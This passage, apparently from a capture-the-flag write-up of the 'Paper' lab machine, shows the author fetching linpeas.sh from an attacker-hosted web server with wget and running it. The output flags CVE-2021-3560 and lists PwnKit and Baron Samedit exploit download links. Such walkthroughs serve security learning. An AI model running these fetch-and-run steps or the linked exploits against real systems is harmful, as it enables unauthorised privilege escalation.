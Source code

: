 
I’ll start a webserver (`python3 -m http.server 80`) in that directory, and
then fetch it from Paper with `wget` (working out of `/dev/shm` as a temp
directory):

    
    
    [dwight@paper shm]$ wget 10.10.14.6/linpeas.sh
    --2022-06-05 14:16:30--  http://10.10.14.6/linpeas.sh
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 776776 (759K) [text/x-sh]
    Saving to: ‘linpeas.sh’
    
    linpeas.sh                                           100%[=================================>] 758.57K  1.17MB/s    in 0.6s    
    
    2022-06-05 14:16:31 (1.17 MB/s) - ‘linpeas.sh’ saved [776776/776776]
    

#### Results

I’ll run `linpeas` with `bash linpeas.sh`. Right at the top of the output
under “System Information”, it says the system is vulnerable to CVE-2021-3560:

    
    
                                            ╔════════════════════╗
    ════════════════════════════════════════╣ System Information ╠════════════════════════════════════════
                                            ╚════════════════════╝
    ╔══════════╣ Operative system
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
    Linux version 4.18.0-348.7.1.el8_5.x86_64 (mockbuild@kbuilder.bsys.centos.org) (gcc version 8.5.0 20210514 (Red Hat 8.5.0-4) (GCC)) #1 SMP Wed Dec 22 13:25:12 UTC 2021
    lsb_release Not Found
    
    ╔══════════╣ Sudo version
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version   
    Sudo version 1.8.29
    
    ╔══════════╣ CVEs Check
    Vulnerable to CVE-2021-3560   
    

A bit further there, there’s a section from “Linux Exploit Suggester”

    
    
    ╔══════════╣ Executing Linux Exploit Suggester
    ╚ https://github.com/mzet-/linux-exploit-suggester
    [+] [CVE-2021-4034] PwnKit
    
       Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
       Exposure: less probable
       Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,debian=7|8|9|10|11,fedora,manjaro
       Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
    
    [+] [CVE-2021-3156] sudo Baron Samedit
    
       Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
       Exposure: less probable
       Tags: mint=19,ubuntu=18|20, debian=10
       Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main
    
